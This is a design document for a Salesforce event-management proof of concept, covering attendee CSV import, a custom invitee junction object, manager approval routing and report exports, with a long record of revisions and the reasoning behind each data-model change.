

# Design: Salesforce Event Management PoC — Invite & Approve Workflow

Generated by /office-hours on 2026-07-23
Branch: (no git repo yet)
Repo: PoC/salesforce_event_mgmt
Status: APPROVED
Mode: Builder (hackathon / demo PoC)

**Revised 2026-07-25** — export grew a second entry point (cross-event download) and a
sign-off date range after the original approval. Both are folded into the sections below;
see *Screen 5 — Export* for the substance and *Deliverables* for the added components.

**Revised 2026-08-06 (R3) — standardisation pass + non-customer invitees.** Two changes
were approved together, and they reinforce each other:

1. **Screens 4 and 5 stop being custom code.** The approval console becomes a standard
   **Approval Process**; the export screens become standard **Reports**. This is *not* the
   original "Approach A" below — that one replaced the whole data model with Campaign, and is
   still rejected. This change touches Screens 4 and 5 only; Screens 1–3 stay custom (change 2
   modifies them, but for a different reason).
   It deletes 2 of 5 Apex classes and 2 of 5 LWCs, ≈1,040 lines of production code plus
   their tests. It does *not* reach zero Apex: `EventNotificationService` survives, for
   reasons given under *Screen 4*.
2. **Invitees with no customer relationship are Leads, not Contacts.** A technical
   conference invites university professors, researchers and speakers who have never
   transacted with the company. **The definition of Account is fixed and must not be
   widened** — an Account is a real, transacting customer. So those people cannot be
   Contacts (a Contact without an Account is a *private contact*, invisible to everyone
   but its owner; see *Rejected alternatives* below). `Event_Invitee__c` becomes a
   two-headed junction pointing at either a Contact or a Lead.

Change 2 forces a routing change that change 1 then absorbs cleanly: approval can no longer
be addressed to "the Account Owner", because a Lead has no Account. A new
`Approver__c` field is resolved at submit time and becomes the Approval Process's
Related User Field. Sections below are rewritten in place; R3-specific items are marked ★R3.

**Revised 2026-08-11 (R4) — the import stops writing to Contact.** A requirements change,
confined to Screen 1 and touching nothing else:

> After upload, only check whether each row **matches an existing Contact** (matching order:
> name, company, email). On a match, record an event tag against that Contact. Do not create,
> update or delete anything else on the Contact.

This inverts what Screen 1 is for. It was a reconciliation tool that wrote contact data into
the org; it becomes a **read-mostly attendance log** whose only write to Contact's own data
is one child record. Three consequences follow, and they are not all obvious:

1. **The risk profile collapses.** No 500-row transaction creating and updating Contacts.
   Server-side re-classification was there because the client could otherwise steer DML
   against arbitrary records; there is now almost no DML to steer. Screen 1 stops needing
   **edit** permission on Contact altogether — a real reduction in what the feature can do
   to the org, not just in what it does do. (That grant lives on the profile rather than in
   `Event_AM`, so removing it is an org decision, not a metadata change here.)
2. **The matching key gets weaker, deliberately.** Email is unique-ish; a name is not.
   Matching on name first means a row can genuinely be about two different people, so the
   design needs an explicit "could not tell" outcome that writes nothing, rather than a
   best guess. See *Ambiguity is an outcome* below.
3. **Attendance history is a separate object, not a field on Contact.** The requirement said
   "field"; the chosen shape is a child object, `Event_History__c`. A person attends many
   events, and a delimited text blob cannot be reported on, sorted, or filtered without
   string surgery.

**Amended after review** — Open Question 11 was answered *"Leads must carry event history
too"*, and that answer rewrites the object's shape. A Master-Detail relationship has exactly
one parent, so an attendance row cannot be Master-Detail to both Contact and Lead.
`Event_History__c` therefore takes **two lookups and a validation rule enforcing exactly one**
— the same two-headed shape `Event_Invitee__c` already uses, for the same reason, with the
same kind of formula fields so one report covers both. Open Question 10 was answered *"skip
the empty narrowing step"*, confirming the cascade as designed.

R4 items are marked ★R4. Screens 2–5 are untouched: the Approval Process, the approver
ladder, the `Lead__c` junction, the `Invitee_*__c` formulas and both reports are all
exactly as R3 left them.

**Revised 2026-08-12 (R5) — imported people get their own object; the workflow stops
touching standard objects.** A requirements change that supersedes large parts of R3 and R4:

> Everyone newly imported is created on a new object, **Event Attendee**. Not bound to
> Account, and no Contacts are created. The point is that future Marketing Events all relate
> to this new object.

This is a bigger change than its two sentences suggest, because it removes the constraint
that shaped the previous two revisions rather than working within it. R3 and R4 both spent
their design budget on the same problem — *where do we put a person who is not a customer?* —
and answered it twice with borrowed containers: a Lead in R3, a two-headed history object in
R4. R5 answers it with a container of our own, and the borrowed ones become unnecessary
rather than better.

Four consequences, and only the first was asked for:

1. **`Event_Invitee__c` becomes a single-headed junction.** `Contact__c` and `Lead__c`
   collapse into one `Event_Attendee__c` lookup. The XOR validation rule, the `Account__c` and
   `Account_Owner__c` snapshots and `Invitee_Type__c` all go with them.
2. **`Event_History__c` is deleted, one revision after being built.** With an attendee object,
   "was on a list for this event" and "was invited to this event" are the same row. R4 was not
   wasted work — it is what made the requirement legible — but it was one step short, and
   saying so is more useful than keeping the object to justify it.
3. **The approver ladder loses two of its three rungs.** Account Owner needed an Account and
   Lead Owner needed a Lead. What remains is the submitter's manager, which is what
   requirement.md asked for before Account Owner was ever used as a stand-in for it.
   **This is the largest functional loss in R5 — see Open Question 15.**
4. **The import stops reading standard objects, not just writing them.** R4 could say it no
   longer needed *edit* on Contact. R5 needs no permission on Contact, Lead or Account at all,
   which is a materially stronger claim: the feature becomes safe to hand to an org that would
   never let an import near its customer data.

**What it costs is not small, and is tabled rather than buried** — see *The price, stated
plainly* under *Data model*. In short: no link at all between an attendee and existing
customer data, organisation reduced to free text with nothing behind it, de-duplication
resting entirely on one composite key, and the attendee list no longer scoped per AM.

R5 items are marked ★R5. Where an earlier revision's reasoning is now moot, it is struck
through and kept rather than deleted — the reasoning was sound for the shape it was written
against, and a reader deciding whether to revisit this design needs to see why the shape
changed, not just that it did.

**Revised 2026-08-12 (R6) — attendance becomes a fact, and events gain a subject.** A
follow-on to R5, driven by a marketing requirement:

> `Event_Attendee__c` has to record which events the person went to, as the basis for
> recommending similar events later.

**Half of this was already true and worth saying so before adding anything.** R5 made
`Event_Invitee__c` the link between a person and an event, and the Event Attendee page
already carries that related list. What was missing was not a place to record history — it
was two things the history needed in order to be worth recommending from:

1. **A distinction between *approved* and *attended*.** `Status__c` runs Draft → Pending →
   Approved / Rejected and stops there. Approval is permission to come; it is not evidence
   anybody came. Recommending from approvals means recommending from a list padded with
   no-shows, which is worse than recommending from nothing because it looks like data.
   `Event_Invitee__c.Attended__c` is the new fact, and nothing sets it automatically — an AM
   marks it up after the event, so an unmarked event has *no* attendance data rather than
   *false* attendance data.
2. **Something to compute similarity from.** `Event_Type__c` had four values describing the
   *shape* of an event. Similarity computed from it degenerates into "recommend another
   webinar to people who came to a webinar", which is not a recommendation. `Topic__c` is
   what an event is *about*, and it is the field similarity should read.

R6 also **replaces the `Event_Type__c` values** with **Symposium / OIP / Conference** at the
business's direction. Because that picklist is restricted, this is a migration and not an
edit — see the note under *Data model*.

**What R6 does not build:** any recommendation logic. Attendance is recorded, events are
tagged, and the *Attendee Event History* report answers "what has this person shown up for".
A human reads it and decides. That is deliberate — a scoring function built before anyone has
tagged a real event would be fitting itself to placeholder data.

R6 items are marked ★R6.

**Revised 2026-08-14 (R8) — reconciled against the source system's ERD.** The business
produced the ERD of the system this workflow replaces (`SEIM_EVENT`, `SEIM_PERSON`,
`SEIM_INVITEE`, plus `SEIM_COMP` / `SEIM_EVENT_COMP_MAP` / `SEIM_REGION_ADMIN`), mapped as
`SEIM_EVENT` → `Marketing_Event__c`, `SEIM_PERSON` → `Event_Attendee__c`, `SEIM_INVITEE` →
`Event_Invitee__c`. It is a **reference design, not a migration source** — no legacy row is
coming across, so no `Legacy_*_Id__c` external ids are needed and nothing here is shaped by
what the old tables hold.

Three of its differences are structural rather than field-level, and two of them reverse
decisions R5 made:

1. **`SEIM_PERSON` has no company column at all.** Company, `CUST_CD` and `ACCT_MNGR` live on
   `SEIM_INVITEE` — a person's employer is a property of *this invitation*, not of the person.
   Our `Unique_Key__c` puts company inside a person's identity, which is why one person who
   changes jobs becomes two attendees (Open Question 16).
2. **The ERD keeps a company as a first-class row (`SEIM_COMP`) and hangs the confirmation
   state off event × company (`SEIM_EVENT_COMP_MAP`).** The business's answer is to reuse
   **Account** rather than add an object, and to keep approval **per invitee** while letting an
   approver act on a whole company's invitees at once.
3. **The ERD snapshots `SALUTE` / `JOB_TITLE` / `COMP_NAME` onto the invitee**, where R5 reads
   them live through formulas. The business chose snapshot — which is the concern design.md
   already recorded under *What is deliberately not stored*: an attendee edited after approval
   silently rewrites what the approval appears to have shown.

**`Event_Attendee__c.Contact__c` answers Open Question 17** with exactly the recovery that
question named: a lookup populated by a separate reconciliation step, not by putting matching
back inside the import. `SEIM_PERSON.CONT_PERSON_SEQ` is that field in the source system.

**What R8 costs, stated before the field lists rather than after:** R5's headline property was
that the feature touched no standard object at all. Reusing Account and linking to Contact ends
that, and only the *write* half of it survives — nothing is created, updated or deleted on any
standard object, which is what
`AttendeeImportControllerTest.importNeverTouchesContactsLeadsOrAccounts` actually asserts and
what makes the deploy safe against a populated org. The half that is gone is "needs no
permission on standard objects": rendering a Contact or Account link requires Read, and that
grant is deliberately left to the org's admin (DEPLOYMENT.md post-deploy step 8) rather than
shipped in `Event_AM`. `CLAUDE.md`'s invariant needs rewording to match: *never writes* stays,
*never reads* does not.

R8 items are marked ★R8. **The data model is complete; one screen is not.** The person fields,
the Contact link, the person and customer snapshots on the invitee are all built. Open
Questions 23 and 24 are answered above and in place. What remains is Open Question 25 — how an
approver approves a whole company's invitees in one action — which is a screen decision waiting
on a wireframe, not a modelling one. Nothing routes to `Account_Manager__c` yet either; R7's
chain is still unbuilt, and R8 only gives it the key it needs.

## Problem Statement

Account Managers (AMs, mostly US/EU-based) collect external attendee lists (CSV) from conferences and other systems. Today there is no structured way to: (1) get those people into Salesforce at all, (2) assemble an event invitee list that several AMs contribute to, (3) get per-person sign-off from a manager, and (4) export the approved list. The PoC demonstrates this complete workflow inside the company's Salesforce Sandbox.

★R5 **The original framing said "on top of existing Account and Contact objects", and that is no longer true — deliberately.** Step 1 was written as *reconcile the list against existing Contacts*, and three revisions have walked that back one step at a time: R4 stopped writing to Contact, R5 stopped reading it. Imported people live on `Event_Attendee__c`, an object this project owns. What that buys is a feature with no blast radius outside itself; what it costs is that the system can no longer tell you which of tonight's guests are existing customers. Both are stated under *Data model*.

**Demo audience:** marketing/sales AM colleagues. The "whoa" moment is operational: batch selection, one-click submission, and a clean bulk-approval experience — minimal manual work end to end.

## What Makes This Cool

- **Diff-preview import**: upload a .csv and see exactly what will happen to every row before anything touches the database. ★R5 The preview has now outlived two complete rewrites of what it previews — R2's create/update diff, R4's match cascade, R5's new/known/skipped split. That it survived all three is the sign it was the right idea: the valuable part was never the matching, it was *showing the user the consequence before committing to it*.
- **An import with no blast radius**: ★R5 the feature reads and writes exactly one object, which it owns. The most interesting thing the result screen says is a negative — no contact, lead or account was created, changed or deleted — and it is a claim the tests assert rather than the copy merely promising.
- **Multi-AM collaboration on one Event**: every AM adds their own batch from a shared attendee pool; batches are independent, nobody blocks anybody.
- **Approval that respects org structure**: each manager reviews their own reports' submissions, with Select All → Approve in two taps, on desktop or the Salesforce Mobile App.

## Constraints

- Company Sandbox; existing Account/Contact data must not be restructured.
- UI entirely in **English** (US/EU users). Demo data uses Western names/companies.
- Upload format is **CSV (.csv)**.
- Time-boxed PoC: happy path + demo-visible edge cases only; production hardening (bulk limits, i18n, granular FLS) out of scope.
- Mobile approval = LWC running inside the standard **Salesforce Mobile App** (no native iOS development).

## Premises (confirmed with user)

1. ~~Matching key for import is **Email**; same email with different title/phone ⇒ update.~~ **Superseded by R4 (premise 11):** matching is a name → company → email cascade, and nothing on a Contact is updated ever.
2. ~~**Company change is flagged for manual review**, not auto-moved.~~ **Superseded by R4:** the import no longer reads a Contact's Account for comparison, so there is no company change to detect. The manual-review download it justified survives, now carrying ambiguous matches instead.
3. ~~Approval is **grouped by Account Owner**: each Owner independently approves/rejects only contacts under their own accounts.~~ ★R5 **Superseded:** approval is grouped by *submitter*, and each AM's batch goes to that AM's manager. The grouping survives — batches are still independent and nobody blocks anybody — but the axis changed from "whose customer is this" to "who submitted this". That is a real change to a confirmed premise, not a detail; **Open Question 15**.
4. iOS approval means the Salesforce Mobile App rendering our LWC — no native app.
5. Export = CSV download of approved contacts — one event at a time from its record page, or every event at once from a dedicated app page, optionally narrowed to the date range the sign-offs happened in.
6. Events are **shared**: any AM can add contacts from their own accounts to the same Event; each invitee records who added it; each AM submits their own batch; completion notifications go to the AM who added those contacts.
7. ★R3 **`Account` means "a customer we actually transact with".** This definition is fixed by the business and is not negotiable in this design. No record type, no "prospect" stage, no bucket Account, no Person Account may be introduced to hold non-customers — an Account row must never exist for a university, an agency or an unaffiliated individual.
8. ★R3 Consequently, an invitee who has no customer relationship is a **Lead**. `Lead.Company` is a plain text field, so "National Taiwan University" lives there without creating anything on Account. Lead is the standard object for exactly this state, and **Lead Convert** is the built-in promotion path on the day that institution *does* become a customer.
9. ★R3 Approval routing is a resolved field (`Approver__c`), not a derivation from Account. Account Owner remains the answer for customer Contacts; it is simply no longer the only answer.
10. ★R3 Minimising custom code outranks preserving the current screen experience for Screens 4 and 5. Where a standard feature is close-but-not-identical, the standard feature wins and the delta is recorded under *What R3 gives up*.
11. ★R4 **The import may not create, update or delete Contacts, nor edit any field on a Contact.** ★R5 **Widened, not relaxed:** it may not touch Contact, Lead *or* Account, in any way, including reading them.
12. ★R4 ~~The event a tag names arrives in the CSV, per row, as free text.~~ **Superseded by R5:** there is no Event column. An import records people; which event they attend is decided later, on the event.
13. ★R4 ~~The event history is a pure historical annotation with no relationship to `Event_Invitee__c`.~~ **Superseded by R5:** `Event_History__c` is deleted and the invitee row *is* the record of who was put forward for what.
14. ★R4 ~~Creating Leads for people who match no Contact survives from R3.~~ **Superseded by R5:** nobody becomes a Lead. Everyone imported becomes an `Event_Attendee__c`, which is what Lead was being borrowed to do.
15. ★R5 **Everyone in an imported file becomes an `Event_Attendee__c`** — a person on a list, on this project's own object, bound to no Account and mirrored by no Contact.
16. ★R5 **`Marketing_Event__c` relates to people through `Event_Attendee__c` and nothing else.** `Event_Invitee__c` keeps its Master-Detail to the event and carries a single lookup to the attendee.
17. ★R5 **Premise 7 stops being a constraint the design has to work around and becomes one it cannot violate.** R3 and R4 both had to argue their way past "an Account means a transacting customer" — with Leads, with a two-headed junction, with a history object. R5 never reaches an Account at all, so the premise is satisfied by construction rather than by care.
18. ★R5 **De-duplication is by `last|first|company|email`, normalised.** This is the whole of it; there is no matching, no cascade and no ambiguity. Its two known costs are in Open Question 16 and asserted in the tests.

## Approaches Considered

### Approach A: Standard features only (minimal viable)
- Campaign = Event, CampaignMember + custom status field; Data Import Wizard for upload; list-view mass edit as "approval"; Flow emails; report export.
- Effort: S (human ~3 days / CC ~30–60 min) · Risk: Low
- Pros: near-zero code, fastest, standard reports free.
- Cons: weak approval UX, no diff preview, low demo impact.

### Approach B: Full custom objects + LWC (ideal architecture) — **CHOSEN**
- Custom `Marketing_Event__c` + `Event_Invitee__c`; five screens — four custom LWCs (import wizard, contact selector, approval console, approved-exports downloader) plus a standard record form for event creation; Flow + Apex for notifications; CSV export button.
- Effort: L (human ~3–4 weeks / CC ~2–4 hours) · Risk: Medium
- Pros: exactly matches the user's script; best demo experience; clean model free of CampaignMember quirks.
- Cons: largest build surface; rebuilds things Campaign gives for free.

### Approach C: Hybrid — Campaign skeleton + custom highlights (original recommendation)
- Campaign/CampaignMember as data backbone; custom LWCs only for import wizard and approval console.
- Effort: M (human ~1.5–2 weeks / CC ~1.5–2.5 hours) · Risk: Low–Med
- Pros: effort concentrated on the two demo moments; standard features backstop the flow.
- Cons: CampaignMember platform quirks; object is labeled "Campaign" not "Event".

**Decision:** User explicitly chose **B** — full control of the experience outweighs reuse; with AI-assisted development the extra surface is affordable (Boil-the-Lake).

## Recommended Approach (B) — Detailed Design

Wireframes: `gstack-sketch-event-mgmt.html` (session scratchpad; screenshot `/tmp/gstack-sketch.png`). Five screens, all English UI — the sketches cover the first four; Screen 5 (Approved Exports) was added after approval.

### Data model

★R5 The shape first — three custom objects, and `Event_Invitee__c` is the junction that makes
event-to-attendee many-to-many. Only the relationship-carrying and key fields are on the
diagram; the full field lists are in the blocks below it.



★R5 **The two delete constraints differ on purpose.** Deleting an event takes its invitees with
it, because they are Master-Detail children and mean nothing without it. Deleting an attendee
somebody has been invited on is *refused* — `Restrict` was the unacceptable option in R4, when
the lookup pointed at a standard Contact and blocking its deletion would have been bad-neighbour
behaviour on an object another team owns. It is the right option now, because the only thing it
blocks is deleting a record this project created.

★R5 **`User` is the only standard object anywhere in the model**, and only as a lookup target.
`Account`, `Contact` and `Lead` do not appear at all.

★R6 **Attendance history needed no new object.** The requirement asked for `Event_Attendee__c`
to record which events the person went to; `Event_Invitee__c` already *is* that link, so R6
adds a checkbox to it rather than a fourth object. It is worth noticing that R4 answered a
near-identical requirement by building `Event_History__c`, which R5 then deleted. The
difference is that R4 had no attendee object, so it had nowhere to hang history except a new
object; once the junction points at a person, the junction is the history.

★R6 **`Attended__c` is not a fifth `Status__c` value, and that is deliberate.** Status is the
approval state machine and the Approval Process owns it; attendance is an observation a human
makes afterwards. Folding them into one picklist would mean either the approval process
writing "Attended", which it has no way to know, or an AM writing a status the process owns.
`Attended_Requires_Approved` keeps the two in the right order — you cannot have attended
something you were never approved for.

★R6 **`Topic__c` is a multi-select, with everything that costs.** One event genuinely covers
several subjects, so a single-select would force a false choice. The price is real and shows
up immediately: a multi-select cannot be rolled up, cannot be referenced by a plain formula
(only tested with `INCLUDES()`), and filters as "includes" rather than equality. That is why
`Event_Invitee__c` has formula fields for the event's name, date and type but **not** its
topic — and therefore why the attendee-side report shows what shape an event was but not what
it was about. Filtering by subject has to go through the Marketing Events report type, whose
base object is the event itself. The asymmetry is a consequence of the multi-select, recorded
rather than papered over.

★R6 **The `Event_Type__c` values are simply Symposium / OIP / Conference.** An earlier draft
of this section treated replacing them as a migration, on the grounds that a restricted
picklist cannot lose a value that records still hold. That reasoning does not apply here.
**`Marketing_Event__c` is one of this project's own objects and holds no records** — the
target org has plenty of Account and Contact data, but none of it is ours (see `CLAUDE.md`).
The values are set, not migrated to. What does still need an answer is what "OIP" expands to
and what it means, because this design cannot describe a taxonomy it does not understand —
**Open Question 20.**

★R6 **No aggregate fields on the attendee, by decision.** "How many events has this person
been to" is not a field — `Event_Invitee__c` is a Lookup child of the attendee, and a roll-up
summary needs a Master-Detail, so the count would have to be maintained by a trigger or Flow.
That machinery was declined in favour of the related list and the *Attendee Event History*
report, which groups by person and whose per-group record count **is** that number. What this
gives up is the ability to filter or sort *people* by it — "everyone who has attended three or
more events" is a report a human reads, not a query. **Open Question 18** if that turns out to
be needed.

**The current specification, in full.** The field lists below are the state of
`force-app/main/default/objects`, not an accumulation of revision deltas — the revision
markers elsewhere in this document explain *why* the shape is what it is, but none of these
three objects has ever been deployed, so there is no earlier state of theirs to reconcile
against. What is listed is what exists.

Note what is *not* here, and that its absence is the point: no `Account`, no `Contact`, no
`Lead`. The target org holds real data on all three; this project adds three custom objects
beside them and touches none of it. A deploy is purely additive to that org.

```
Marketing_Event__c                                    OWD: Public Read/Write
  Name                       Text                     "Event Name"
  Event_Date__c              Date, required
  Location__c                Text(255)
  Event_Type__c              Picklist, restricted     Symposium | OIP | Conference
  Topic__c                ★R6 Multi-select, restricted Digital Banking | Payments |
                                                      Capital Markets | Insurance |
                                                      Risk & Compliance | Cybersecurity |
                                                      AI & Data | Sustainable Finance
                                                      <- PLACEHOLDER VALUES, see OQ 19
  Expected_Attendees__c      Number
  Description__c             Long Text(32768)
  OwnerId                    standard - creating AM
  Approved_Count__c          Roll-Up  count of invitees where Status = Approved
  Pending_Count__c           Roll-Up  count where Status = Pending Approval
  Rejected_Count__c          Roll-Up  count where Status = Rejected
```

```
Event_Attendee__c                                     OWD: Public Read/Write
  (one row per person, reused across every event)
  Name                       Text(80)                 "First Last", assembled by the import
  Salutation__c           ★R8 Text(40)                 free text, not a picklist
  First_Name__c              Text(40)
  Last_Name__c               Text(80), required       no surname = no identity; import skips
  Other_Language_Name__c  ★R8 Text(255)                the name in its own script
  Email__c                   Email                    optional, and deliberately NOT unique
  Title__c                   Text(128)
  Other_Language_Job_Title__c ★R8 Text(255)
  Company__c                 Text(255)                free text; no lookup to Account, by design
  Mobile__c                  Phone                    as given, never normalised
  Work_Phone__c           ★R8 Phone                    kept beside Mobile__c, not instead of it
  Address__c              ★R8 Text Area(255)           one field, not five - see the field description
  Contact__c              ★R8 Lookup -> Contact, SetNull
                                                      "also exists as a Contact in the org".
                                                      Written by reconciliation, NEVER by the
                                                      import. SetNull, never Restrict - this
                                                      must not block the org deleting a Contact
  Is_Known_Contact__c     ★R8 Formula, Checkbox        NOT(ISBLANK(Contact__c)); readable without
                                                      any grant on Contact
  Source_File__c             Text(255)                which upload it last came in on
  Imported_On__c             DateTime                 refreshed on re-import
  Unique_Key__c              Text(255), unique, ExtId normalised last|first|company|email
                                                      <- the whole of de-duplication
```

```
Event_Invitee__c           (junction: one row per event x attendee)  OWD: ControlledByParent
  Name                       AutoNumber INV-{00000}
  Marketing_Event__c         Master-Detail -> Marketing_Event__c, reparenting disabled
  Event_Attendee__c          Lookup -> Event_Attendee__c, deleteConstraint Restrict
  Status__c                  Picklist, restricted     Draft | Pending Approval |
                                                      Approved | Rejected
                                                      system-managed; FLS read-only
  Attended__c             ★R6 Checkbox                 actually turned up. NOT a Status value
  VIP__c                  ★R8 Checkbox                 VIP *at this event*, hence on the junction
  Remark__c               ★R8 Text Area(255)           the AM's case for inviting them; shown on
                                                      the approval page. Not approval comments,
                                                      which belong to a decision instead
  Added_By__c                Lookup -> User, SetNull  which AM added the row
  Approver__c                Lookup -> User, SetNull  submitter's manager, frozen at submit
  Submitted_At__c            DateTime
  Decided_At__c              DateTime                 stamped on approve and reject alike
  Unique_Key__c              Text(40), unique, ExtId  EventId + AttendeeId

  -- reads DOWN to the attendee, LIVE --
  Invitee_Name__c            Formula, Text            Event_Attendee__r.Name
  Invitee_Email__c           Formula, Text            Event_Attendee__r.Email__c

  -- SNAPSHOT of the person, stamped at add time --  ★R8
  Invitee_Salutation__c   ★R8 Text(40)                 SEIM_INVITEE.SALUTE
  Invitee_Title__c        ★R8 Text(128)                SEIM_INVITEE.JOB_TITLE. WAS a formula
  Invitee_Org__c          ★R8 Text(255)                SEIM_INVITEE.COMP_NAME. WAS a formula.
                                                      Account name where there is one,
                                                      imported company text otherwise

  -- SNAPSHOT of the customer, via Event_Attendee__r.Contact__r.Account --  ★R8
  Account__c              ★R8 Lookup -> Account, SetNull   SEIM_INVITEE.COMP_SEQ
  Cust_Cd__c              ★R8 Text(40)                 SEIM_INVITEE.CUST_CD, from
                                                      Account.AccountNumber <- ASSUMPTION
  Account_Manager__c      ★R8 Lookup -> User, SetNull  SEIM_INVITEE.ACCT_MNGR = Account.OwnerId.
                                                      NOT the same person as Added_By__c
                                                      (all three blank for a guest with no
                                                       Contact behind them - that is a real
                                                       state, see Open Question 21)

  -- reads UP to the event --  ★R6
  Event_Name__c              Formula, Text            Marketing_Event__r.Name
  Event_Date__c              Formula, Date            Marketing_Event__r.Event_Date__c
  Event_Type__c              Formula, Text            TEXT(Marketing_Event__r.Event_Type__c)
                                                      (no Topic__c counterpart - a multi-select
                                                       cannot be read by a formula)

  -- reads the running user --
  Added_By_Me__c             Formula, Checkbox        Added_By__c = $User.Id
                                                      (a report filter cannot compare a lookup
                                                       to the running user; a formula can)

  Validation rules
    Approver_Required_When_Pending  Status = Pending Approval AND ISBLANK(Approver__c)
    Attended_Requires_Approved      Attended__c AND Status <> Approved
    (Event_Attendee__c is required at the field level, so no rule is needed for it)
```

**The three objects as one sentence:** a *Marketing Event* is a thing with a date and a
subject; an *Event Attendee* is a person on an imported list; an *Event Invitee* is the fact
that this person was put forward for that event, carrying the approval state and, afterwards,
whether they came. Every question the system answers is one of those three read in some
direction — and because `Event_Invitee__c` is the only join, both directions of the
recommendation question ("what has this person attended?" and "who attended things like
this?") are the same rows read from opposite ends.

★R5 **The object above replaces `Event_History__c`, which is deleted.** R4 had just
built it — a two-headed attendance log hanging off Contact and Lead — and R5 removes it
after one revision. That is worth being honest about rather than quietly dropping: R4
solved *"record that this person was on a list"* while still treating Contact and Lead as
where people live. Once imported people get an object of their own, the attendance fact and
the invitation fact are the same row (`Event_Invitee__c`), and a separate log is a second
place to keep the same thing. The R4 work was not wasted — it is what made the requirement
legible — but it was one step short.

★R5 **What "not bound to Account, no Contacts" actually buys.** Three things that were
structural problems in R3 and R4 stop existing rather than getting better:

| Was | Is |
|---|---|
| Two lookups, a XOR validation rule, and five formula fields whose whole job was hiding the fork from consumers | One lookup. The four surviving formulas are convenience, not load-bearing |
| A person who was both a customer Contact and a Lead could be invited to one event twice, because the two rows had different `Unique_Key__c` values (Open Question 9) | One kind of invitee, one key per person per event. Settled |
| The import needed write access to Contact (R2) and then to Lead (R4) | It reads and writes exactly one object, and that object belongs to this project. The `Event_AM` permission set now grants no standard-object permission at all |
| A guest with no customer relationship needed a Lead, which needed an owner, which needed the approver ladder to grow a rung and an exclusion rule to stop self-approval | Attendees have no owner in the routing sense. The ladder is one rung: the submitter's manager |

★R5 **The price, stated plainly.** These are consequences of the requirement, not oversights:

| Given up | Consequence |
|---|---|
| **Any link to existing customer data.** An attendee who is also a Contact is now two unrelated records. | Nobody can answer "which of tonight's guests are customers?" from this system. That question was answerable in R4 and is not now. **If it turns out to matter, the cheapest recovery is an optional `Contact__c` lookup on the attendee populated by a separate reconciliation job — not putting matching back into the import.** |
| **The narrowing cascade, `Match_Basis__c`, and the Ambiguous outcome.** | With nothing to match against, there is nothing to be uncertain about. The preview loses a category and gains nothing to replace it. |
| **Organisation is free text with nothing behind it.** | "Acme Corp" and "ACME Corp." are two organisations in the selector's grouping, and no report can roll them up. R3 had this only for Leads; R5 has it for everybody. |
| **De-duplication rests entirely on `Unique_Key__c`.** | Two same-named people at one company with no email collapse into one attendee; one person whose email changed between two files becomes two. Both are visible in the demo file on purpose. |
| **The selector is no longer scoped per AM.** | Account ownership and Account Team membership were what "my contacts" meant. Every AM now sees every attendee, bounded only by the object's sharing model. Deliberate — a shared event whose pool each AM could only half see is worse — but it *is* a widening, and an org that needs scoping has to invent a new basis for it. |

★R5 **Why one row per person, and not one per person-per-event.** The alternative — an
attendee row for every line of every uploaded file — is simpler to write and wrong to live
with: the same professor at four events is four records, "have we invited them before?"
becomes a report over near-duplicates, and correcting a misspelt name fixes one of four
copies. Person-level costs a de-duplication key and gives the Event Attendee page a related
list of every event they have ever been put forward for.

~~★R3 **Two lookups, not one polymorphic field.**~~ **Retired by R5.** A custom lookup cannot
reference two objects, so R3's junction carried both and `Invitee_Is_Contact_Xor_Lead`
enforced exactly one:

```
ISBLANK(Contact__c) = ISBLANK(Lead__c)     ← deleted in R5
```

With one head there is no XOR left to state, only that the head is populated — and that is
simply `required` on the lookup. The R3 reasoning was correct for a junction that had to point
at two objects; R5 removed the second object rather than finding a better rule for it.

~~★R3 **The five formula fields are the load-bearing piece of this revision.**~~ ★R5 **Now
four, and no longer load-bearing.** Their whole job was letting one report column read
correctly whether an invitee was a Contact or a Lead — a report cannot branch across two
lookup paths by itself, and without them "replace the export LWC with a report" would not have
been possible. Reading through a single lookup needs no such trick. The four survivors are
kept because they cost nothing and because repointing a dozen consumers at
`Event_Attendee__r` would be churn for its own sake, **not** because anything depends on the
indirection any more. `Invitee_Type__c` is deleted outright: with one kind of invitee it
always reads the same word.

~~★R3 **What is deliberately *not* stored:** no copy of the Lead's name, company or email.~~
★R5 **Still true, and now the only rule.** Every `Invitee_*__c` field reads live through the
attendee, and nothing is snapshotted anywhere on the invitee — the `Account__c` and
`Account_Owner__c` snapshots are deleted along with the objects they pointed at. R3 had to
justify an *inconsistency* here (Account snapshotted, Lead live) on the grounds that an
Account can be reparented and a Lead cannot. R5 has no inconsistency to justify: correcting a
misspelt name on an attendee fixes it on every invitee at once, which is what you want for
fields nobody makes decisions on. The thing genuinely lost is that an attendee edited *after*
approval silently rewrites what the approval history appears to show — acceptable while the
attendee is import-owned data nobody hand-edits, and worth revisiting the day somebody starts
editing them.

